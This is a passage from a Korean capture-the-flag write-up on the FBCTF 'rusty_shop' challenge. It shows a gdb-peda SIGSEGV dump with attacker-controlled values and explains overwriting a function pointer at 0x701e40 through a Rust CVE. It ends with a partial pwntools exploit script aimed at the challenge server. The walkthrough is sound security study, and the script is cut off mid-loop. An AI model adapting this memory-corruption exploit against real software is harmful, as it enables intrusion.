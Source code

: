 다음과 같은 `SIGSEGV`를 확인할 수 있다.

```assembly
[----------------------------------registers-----------------------------------]
RAX: 0x31313131 ('1111')
RBX: 0x7f8af67fec30 --> 0x0 
RCX: 0x7f8af600d030 --> 0x31313131 ('1111')
RDX: 0x2 
RSI: 0x2 
RDI: 0x31313131 ('1111')
RBP: 0x0 
RSP: 0x7f8af67fe950 --> 0x2 
RIP: 0x30cd35 (<core::ptr::drop_in_place+21>:        mov    rdi,QWORD PTR [rdi])
R8 : 0x7f8af6a00080 --> 0xc8000000c8 
R9 : 0x0 
R10: 0x90f3d0 --> 0x7f8af6a00080 --> 0xc8000000c8 
R11: 0x7f8af6f02f90 --> 0xfffda370fffda09f 
R12: 0x0 
R13: 0x7fffced5c36f --> 0x7f8af682002000 
R14: 0x7f8af67fec38 --> 0x0 
R15: 0x7fffced5c470 --> 0x7f8af65fe700 (0x00007f8af65fe700)
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x30cd29 <core::ptr::drop_in_place+9>:    mov    rdi,QWORD PTR [rsp+0x10]
   0x30cd2e <core::ptr::drop_in_place+14>:   mov    rax,QWORD PTR [rdi]
   0x30cd31 <core::ptr::drop_in_place+17>:   mov    rdi,QWORD PTR [rdi+0x8]
=> 0x30cd35 <core::ptr::drop_in_place+21>:   mov    rdi,QWORD PTR [rdi]
   0x30cd38 <core::ptr::drop_in_place+24>:   mov    QWORD PTR [rsp+0x8],rdi
   0x30cd3d <core::ptr::drop_in_place+29>:   mov    rdi,rax
   0x30cd40 <core::ptr::drop_in_place+32>:   mov    rax,QWORD PTR [rsp+0x8]
   0x30cd45 <core::ptr::drop_in_place+37>:   call   rax
[------------------------------------stack-------------------------------------]
0000| 0x7f8af67fe950 --> 0x2 
0008| 0x7f8af67fe958 --> 0x7f8af600d020 --> 0x31313131 ('1111')
0016| 0x7f8af67fe960 --> 0x7f8af600d020 --> 0x31313131 ('1111')
0024| 0x7f8af67fe968 --> 0x2 
0032| 0x7f8af67fe970 --> 0x7f8af600d020 --> 0x31313131 ('1111')
0040| 0x7f8af67fe978 --> 0x30cea3
0048| 0x7f8af67fe980 --> 0x7f8af600e000 --> 0x31313131 ('1111')
0056| 0x7f8af67fe988 --> 0x7f8af600d020 --> 0x31313131 ('1111')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
gdb-peda$ x/gx 0x701e40
0x701e40 <rusty_shop::FUNC::h691c840a26d656e2>: 0x000000000030f620
```

`name`을 `0x701e40`으로 맞추고 `CVE`를 트리거하면 플래그를 딸 수 있음을 알 수 있다. 스크립트를 다음과 같이 고치자.

```python
from pwn import *

#context.log_level = 'debug'
count = 0x10000000000000000/8 + 1

pwin = 0x701e40
check=''

while 'fb' not in check:
    p = remote("challenges.fbctf.com",1342)
    #p = process("./rusty_shop")

    p.sendlineafter("6","1")
    p.sendlineafter("Name",p64(pwin))
    p.sendlineafter("Desc","ATTACK")
```